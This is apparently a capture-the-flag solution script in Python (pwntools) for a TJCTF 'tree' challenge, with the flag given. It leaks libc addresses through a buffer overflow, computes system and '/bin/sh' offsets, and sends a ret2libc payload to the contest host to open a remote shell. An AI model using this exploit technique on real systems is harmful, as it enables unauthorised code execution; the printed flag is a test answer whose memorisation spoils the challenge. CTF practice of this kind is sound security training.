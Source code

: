 ```python
ret_addr = get_tree_addr

payload_puts = padding + plt_puts + ret_addr + got_puts
payload_setbuf = padding + plt_puts + ret_addr + got_setbuf
payload_strcasecmp = padding + plt_puts + ret_addr + got_strcasecmp


#binary = process("./binary")
binary = remote("p1.tjctf.org", 8006)

print(binary.recvline()) # Enter a tree type 
binary.sendline(payload_puts)
binary.recvline() # I dont have the tree
puts_address = binary.recvline()[:4]
print("Address of dynamically linked puts -> " + str(hex(u32(puts_address))))
print(binary.recvline()) # Enter a tree type
binary.sendline(payload_setbuf)
binary.recvline() # I dont have the tree
setbuf_address = binary.recvline()[:4]
print("Address of dynamically linked setbuf -> " + str(hex(u32(setbuf_address))))
print(binary.recvline()) # Enter a tree type
binary.sendline(payload_strcasecmp)
binary.recvline() # I dont have the tree
strcasecmp_address = binary.recvline()[:4]
print("Address of dynamically linked sstrcasecmp -> " + str(hex(u32(strcasecmp_address))))
print(binary.recvline()) # Enter a tree type


'''
On the first run I got:
Address of dynamically linked puts -> 0xf7e5e360
Address of dynamically linked setbuf -> 0xf7e64f10
Address of dynamically linked sstrcasecmp -> 0xf7f4c5b0

According to libc.nullbyte.cat, it corresponds to libc6-i386_2.27-3ubuntu1_amd64 
I will be getting system and bin_sh_str offsets relative to puts address
'''

system_address = p32(u32(puts_address) - 0x2a650)
str_bin_sh = p32(u32(puts_address) +    0x11456f)

shell_payload = padding + system_address + b"AAAA" + str_bin_sh

binary.sendline(shell_payload)
binary.interactive()

# Flag is: tjctf{tr33_c0de_in_my_she115}
```

Flag is: tjctf{tr33_c0de_in_my_she115}
